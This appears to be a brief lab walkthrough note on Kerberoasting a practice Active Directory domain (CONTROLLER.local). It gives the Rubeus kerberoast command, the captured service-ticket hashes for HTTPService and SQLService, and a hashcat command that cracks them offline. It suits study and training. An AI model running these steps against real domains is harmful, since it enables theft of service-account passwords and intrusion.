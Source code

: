 Kerberoastign w/Rubeus -
```
Rubeus.exe kerberoast
```

$krb5tgs$23$*HTTPService$CONTROLLER.local$CONTROLLER-1/HTTPService.CONTROLLER.lo
cal:30222*$EB6AA46C670BED96A1899375F45C4B2F$805B34AE9930D2F5E39161F3EE1C334CBBFB
42E6CF961C485BF4F086629B26B47102730003B34A13DFD5D1F64268F48D9364D3FFB5CAB9BA4C46
36560DE777F280F05AADBD7474160F272561236DF8C2C669866642EA95C97A9E2B7F3E225C4F6491
00B1C62F2AC109A502A1CD3BF4C86C2F14523D3CCBC416E242E1B4026C3584DFADFAD8D0B00FEDB6
DDA378C8BE55D61C1A6B23369FD5D54826D7566C67C4F6DB54E06409873B2E7B4A23D3089A749B21
E0BD77915EC56E56E51E9561E2099CEB4D1947DDD5527D46FB563FC0BB6B29DCEA43E6D0826AE0F4
AEB5B2AE03807C050F3467C64D3D9ECB4CA2573D1AEB353FDB49544B176D129825FA7682AF0D911D
C75DB3D7B05CBEFF8F78A16D264FCD7EAD2A9D15E041FAFBC3B34D374FAFC60E6A16B86A0F759DE1
A071B0B058F737F94C13A166AD0FFAF9688CC53CE70B8A2E44BFE42B493346F64604C1E217BDCA26
6D482E239EC68E46040E9ED71594B6DEFC8C3B50954EF9BA5D89C22B00D4979D24A6DD667569EF02
6E1F9D6043EB94701DB6F3BEA167B82EB5F5663BFEB37BDFEB5276943509FECBB5E5CFF3C64B2194
C944FACEDB471B2764F9E2823DBF2DF1A24D02AF0CF478D8117458264BC0F222C9F97EE6CBB45A7C
E665A9E14B6C145EE273E447E86834E4B26EA76A358C8D03576F9C6364EBE566C28CAF4E36CE14EB
8E2EAB08A5805EC8079ABBD3087551CC843DCCB570B9C7EE87EE27F5A664FE95FA793992657DDE97
217416FB24F4F110D67391ADACED22DECA62E7053DB18E181754EC5C01F5F9D7B23FD973C5CEE028
4C033A6F50792F946B20EBE5AFB2D4E0629687CF4E7E8220D2AFD186EA6ED1821E4F6C0E62D416DE
3D680EDE72FFF702B2F22CED0D4681228BFC496A2D3D3F256FA0FC32E7B01D0F5A408A2C6EFC18CC
2739C8BD4437462F9EAD357AABC6EA9B694DAB1CD6A1E014D3897C3F36D41066F4ACA9C9F9DBC292
1AE11A1C725B410858F0EFF3AFCE8D19C90CC83C0A5B19562B1CD1A9C1728B4A21AC6584711A5804
B32A345EB6FFF89B94F24FBECA8F884521C96EAEBA0985A429C95830635C2C81FE12889093DA2D7E
61D4EA9FFA2A3C4FD13178BFC62E8830DF7FBBB623B1E2E2AD7917C6C98C915FAA08E54593516974
E7049961B717A28208508069F09175227B4E8B58A2A178DAFDB0F796B1906794BED705AC1126CF23
4D9AB120BA248961CE7A3F0EF8B819782FB87A9365CE14CC8ACE177C00D67D6821CD0AFD874D13F5
34C4E5CBAD9B2E4D135ECD4AC8A726DAD1F4653C927CC54FE5619325E67F75A7A79A29705FFB0E84
1506C594F0DA917D2887DCFF73AEA09ADB4D98347A4E259999AF3DF7E1A2B61095EA2604D089A751
EC653351AA6F998E6AF3B69DCE17002E88BA662FB2358A6456F0416723589B5816E5BDFCE4DE61C8
70959B0B387A0FDDB6573A2B534DCC056D00AF989EB3FD8A77DD36E65F0508EA1185D383050CD216
145F44517B08A3DA48C2F9CF78AC2C37FF6734E020BBD6F7F080B5D8154E031AAB4AB0B3944D5EF4
3089D532930D0DA363176F18BCE8352402BEA9A5400556684A77F256D3B44DA60F015CC96E35B066
AEF4F98903A8E5747459336FAC39E68AE7C8F948068FB55BE2DF7741048B

$krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.loca
l:30111*$FD8B11800ECABD5CE1CB2755D974CA70$BF86D2336EA40DA74991CAEA43AB9367846B91
C617EF17C3CB5F88E1AC7C32ABC89444E9E823A35DBC35908D49D72354DD0D7A2A50B704BA9FCF21
FACAFFE64766032BB806CCA54C4C395A41ECD0DCFCAEF1A270BFA6C4A8079FC9E029CB04688EA5AE
59E28DAD045476BAE6DBC1B8306C890DDE51BFE10350777281CE454E62056556CE219302A44029AC
8D57758FD8B8D5FE3D8AB702BF8A375BF10BB36F2958397CFAD841F725A0FE8B44E81EDB97935785
E56360480104C932109A5A4CC2D22D4591F587A985BD27FC11F9E1104F8D8C9361A8149CDA01E9BF
ADB5D6A9FE3814E3882D1762118C4272CC5096318B87DB2CF43ADA4DF2A8F23227F02BCAAA988939
68122503E51E5ADB7EC660C649524ECC5D244F6E1AFDACE0EF87BDF1C91218655BDAA80BD75F3012
2EC42E92FF742406860C48137E7A592B4EF33EA8EA69ECF8240F8DCABF07B9BFCEF029D6783CDCC2
2C7261A635B93593D7C71F6891A46E4B1BE814DF5550D5C4E2EA55512D4FEC778EBB7C26E812E9D2
17574EE68756A1C96CAAE814AE487FBDCCF1EC35B4F3056BA7BB2E55E700F651D2D90A9EBBBD6458
623CD204E2843DF2715113EEA9457D6349F4F89DAE49DD2C39AA7546F1C6297222770FE0F86F9FFC
60AB4EA4AD74B3DC9DE1AF1B9576291A492FC880B36C2E3EE94FB5E1EF8FDAB405BE1668D627A819
4D80AF5E189F720A2D631B25669FAD03722468416B84462B40D461255C4A40F5F8EF4CFC7FEF3063
CD9C7C38E11FB840DBBB34DB5D382BAD357D97598194314FBAFBE748957BA20D44D41C6F1893081E
E0595622B2D8BA8FDC7B2A57A98EB4AED9FE1924167E2A8D768A253B9C1D1522EAC93A9203E46B39
73CA7695B6A727EBD18D97C9181D35FB66F08A99B06A90EAF4E750B6397E820DDA17FB5B53E3FE01
C8E97F020DA4CFDF2BF92F21C49B26F822787121BD46033C228CB22BFBDD830E62DED61574D1D285
A98C5ABE4B13E13C637995BC4D8B7E1EE976D5F32763735B87D592A3148B4A7D338BDB1F3AA7EEB0
CE2C527EA55AD929880A657A472DC8C6E1FEE37665DD85B49E28202848337B66C5D759A7C39561B7
88547307E958D14E4BF7980624F21E55774E6356BD6E828E3D8236197D9B0C01972F90C12F85E7E8
A75A7632B6040FF5A28EB54A8DE7ECAD65A3FB0C8826774CFEB5BA5F4B6ADE52FE9C02192BF8C47C
EC58F350E7E463B7FC277660BB4FDB28CAAEA2439891ABBC67BF33C4BE1CFFAF415EDBB267482A8C
6DA96D70E04FAFE7E63519C4C39CAB49E5452C89A280E20368777A930D6E849F23107D82F6C33731
99579D613F658B594FACEE4A8501AF19C01683E2789E8F637D0F6D2390DB5BF9EE59921493D340FD
77F9B6553B0FE88A0BF9A4C784C9589EF03EFD5BE1BBD19EFF80FC20ACF3679A8C85B2D859BE0A7C
2A1D7681DDD9DAB6A13A01B580FEB632D22776B25DB2AAA814ABAFD15CC894B6CB6E2A6C8F6985BE
782FE11976F7010DA9261CE9A32D864BC56AE3D1872A4150389BEF1772BE53CC5A8F9F24D989A445
D43FB09D23E537E28C977EC0F6157B9A4490DF35E4C535346993CB2B9C15C3097927DF3452679E67
DA860245D5D1F1F827A3C1F1F7737040F7394BF9A5B440B0B10B21099E

Crack the hash, not you to remove line separators; you can copy the hash into the browser URL to achieve this. 

```
hashcat -m 13100 -a 0 Hash.txt Pass.txt

```
